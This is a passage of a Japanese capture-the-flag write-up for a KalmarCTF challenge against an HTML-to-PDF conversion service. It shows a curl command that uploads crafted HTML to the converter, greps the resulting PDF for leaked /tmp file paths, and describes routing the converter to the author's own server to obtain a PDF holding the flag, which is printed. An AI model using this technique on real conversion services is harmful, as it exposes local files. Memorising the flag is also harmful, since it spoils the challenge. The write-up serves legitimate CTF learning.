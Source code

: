 ```bash
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/bf56333b-0f6b-46a6-beec-3cfb72253c55/)>>>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/d861e9da-95de-4008-ad8b-5a5ed7446787/)>>>>
[1]+  Done                    ( curl -s https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/html --form 'file=@sato1.html;filename=index.html' --form waitDelay=6s -o ./sato1.pdf; strings sato1.pdf | grep --color=auto file )
```
途中で`UUID(2)`が複数出力されるので、どれかを選んでサーバs4t.pwのapp.pyに追記して実行する。  
今回は`bf56333b-0f6b-46a6-beec-3cfb72253c55`を選ぶ(フラグが得られない場合はハズレである)。  
するとs4t.pwへリクエストが到達し、しばらく待つとflag.pdfが生成される。  
![flag.png](images/flag.png)  
flagがpdfに含まれていた。  

## kalmar{g0tcha!_well_done_that_was_fun_wasn't_it?_we_would_appreciate_if_you_create_a_ticket_with_your_solution}
